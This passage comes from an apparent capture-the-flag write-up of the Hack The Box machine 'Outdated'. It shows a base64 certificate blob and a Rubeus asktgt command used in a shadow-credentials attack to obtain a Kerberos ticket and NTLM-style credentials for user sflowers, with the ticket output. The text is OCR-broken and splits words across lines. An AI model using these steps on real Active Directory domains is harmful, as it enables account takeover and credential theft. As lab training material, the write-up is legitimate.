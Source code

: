 ```bash
QXKdV5HZxFl4O9IIJ75Umq5wo9ZLwbt2JiHBTebEnvXNmiFqtsoKT+m5T9cmwq1ABeEEotLKhB2
7EbWDHCdyCQqPwKSrfGDzPeu/uB50sFV4vXJLC42OGDmQGHEPNUBVQx9mEw4oKggX9p5wSk10JT
AC7Tz8F/tE3p3+V7EJ6QPALPaAona2TPTpjuv8zfZUqmL2zz2JKCXg3lUKl5FsFA+9puK7e10G9
OoHCf8ViiTQ+GyDSKPKAm6E5wIiGnr8/E+AsZayP3dxuStyToLvqrX3z4csj5vhFKisU0HjG9lZ
HTx3j+D22XQzQR1vSQlA0tXvs7GgykgjewPwPQ/rk3vtXYAlqqoxTOS7YE7LeFvkzr6zpUwMsu2
o1mqeQwKkW00rU18LEg/yoMfhM+3hdPl29QawV+HN9+WOCKALvQr3+s2s1Nj5Racm4+Hxz3P8rG
cRByeR9M828/bzYG+KdvxzyDpzipXnOF5HJ/Gs5Ne4My17qNAIn2aJY6439eR8NEylmXe6WPKkc
KVg4F5UmbVMjNkmb8perIQN8WFETfzZU7qQP8qn0Uztrsr6OEc8By8ofWTwKZ+eu1jy6aNoV1qy
w8yXOWVX8NyNgIhwpOiMsZCcK1LnrthTzZ4xtguVbo/hYb38uYFQx+eYVLv1jQZdegP8H2uADUG
lPdTB2gHEH9bUC/F5EWgP5+xmZ0jFzmpYNi94taMeNfT2pI64dsdeIzxQhWTs+0vaYTZ9lOUrAH
qHC3yuxQ+yIwpkCFKPf5xUSasfPIrkwTs4oT7BfawALak9kqwEKF2zGKJax1qzLPwtyRMNEOEIN
qd9o/n4Cv0bT+lWFCCuI78PkCg061EzMW9lE/wr/9itx7tuwfQWlzoXCj4iOChOWEdPkzefJuuC
eKE0q3FPTOeeCBGUelgteuU15Wt5rcak4erpfbp9GaUoQ4m5We9sT90WwVJtxuPRVj0ySm2phXb
HWGpj3asutC2Zcuq7PuHZG4IPt8jRf1CBwZ3XkaysfWIEN/fYieMt1W1WBRWjvwLMfxk3zoNa9Q
kMNJjgfgPzT+wNwHQ3ZVVe5eV+oAXTuCG/VHa8QRFS1VAfmk7/fKr5h8sgYRNhkJhQ6ujwfatby
qJGr2X7hNAvV8ztPkp9G3acP2OMBFFkqU6zKH+pO3nSXF8sUvMxj2fryqYODGB6TATBgkqhkiG9
w0BCRUxBgQEAQAAADBXBgkqhkiG9w0BCRQxSh5IAGIANABjADkAZgAzADMAMAAtAGUAYgA0AGYA
LQA0ADAANQBjAC0AOQA2AGYAOAAtADIAOABkAGEANgBkADMAMgBiADgAZQAyMHkGCSsGAQQBgjc
RATFsHmoATQBpAGMAcgBvAHMAbwBmAHQAIABFAG4AaABhAG4AYwBlAGQAIABSAFMAQQAgAGEAbg
BkACAAQQBFAFMAIABDAHIAeQBwAHQAbwBnAHIAYQBwAGgAaQBjACAAUAByAG8AdgBpAGQAZQByM
IIDPwYJKoZIhvcNAQcGoIIDMDCCAywCAQAwggMlBgkqhkiG9w0BBwEwHAYKKoZIhvcNAQwBAzAO
BAi6w0PZ56RT7QICB9CAggL4uoMxY+e5SQGxhXfxKSqVE9T7u2JAKvBHygN+tE4vLrl8gnYjCoq
PsvHwraib1HMfZQaGJfg+WUjGdJfj5fiPQner+i+krasOe0Ln529oUsGuHjuer46xY+7t6Wh2I+
I+aNJ9E0Nkkr7tK7o4FyAC0Blrf7P9cUbkjZAG0j5vGXmw2BFjPWD6Qp/xjazg9u7JZjXBr4dod
fWZfY5ROcJ+7g6rDaUk4YUjUnCUn78hnabkDPFHkcVTAbqmFjr8jROoUJ6lmEuFwVbxxqW6Qi9B
Wnd+aFj4wRnrRAV9hC505Coq2RGrCGCBm65KVPTm7Agt2KJ9CZrygGP0r76wJY/pjTXe5x201sV
3MNlemKa6AuKIfev9IlZDsRxRLCahDhvi4kg4ysgV6Y+xk0IVrFbTNjqtM2H+YljRztN0HWxBj0
8/kn4Z6R3Q4KBFb04H8myoiwmyDkZKPgOpuSL5IbpsN+mmApb2j7Mmoym/sUdHeZbQ/mltIA4bw
+fQeVAR7Lo99T5NItWdr941m14q6U58CsHNt2IB0Phj1MxbWxuVFKmKkYAAXn2kL4wKnqNj/0CG
ZkcOIf2stblDv+uB4c1PYBNNIZG6MYfLncV+TK43XP4jA29LApN+4cHqcLJn3ro6l71hpLwAHb0
V7qfDXkBKLT2h0xP3i9lGDTziaVoWJSGwFzf26YWiA8ZNZtjIturUME9ygcLBiXm67vprxLlcLZ
cnc7/Ryu9bkCYGLlWG2E+pdjokYoIDbNv8g4Y10PI3yfB5Izb4tjJ+LwLq5LnVM1QzH31pCYECi
4tY2ZsItJkSroIJzQ7+ivdBu8WtapX00xQwW/9xlSJXjFz5yCfSzcgxR5RBVUyeaIaINxb/dyWr
+3Q5BM90LbAx+cYm0GY0IdXg+YF6jEAWpcl7CitF5Y+UUomVFBOZR4BeCtb4sHzaNXfD3NLhIKj
aGBuIitLMPUp2Hyms8AAAWtNrJ7E+rDOQnOaYCEhEQ2qVBBL6a3lD4udRjdfyRzA7MB8wBwYFKw
4DAhoEFHFau38/svCLpcFxXqgQN5D5szeOBBT6ao+jw6DfD/ARuMxXGNADBO0hmwICB9A= /pas
sword:"bokchee" /domain:outdated.htb /dc:dc.outdated.htb /getcredentials /s
how
```

I can successfully add key-credential, and it prints out the possible command line using `Rubeus.exe`.

Before using the command line above, you need to process it to remove newline(`\n`).

```bash
PS C:\Users\btables\Desktop> .\Rubeus.exe asktgt /user:sflowers /certificat
<SNIP>

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers (NT_PRINCIPAL)
  UserRealm                :  OUTDATED.HTB
  StartTime                :  11/29/2024 1:23:16 PM
  EndTime                  :  11/29/2024 11:23:16 PM
  RenewTill                :  12/6/2024 1:23:16 PM
  Flags                    :  name_canonicalize, pre_authent, initial, rene
wable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  iqFRJkIWEeUmW2na98gUHg==
  ASREP (key)              :  D2840E5FE3D879B8BC04BD4411CD3888

[*] Getting credentials using U2U

```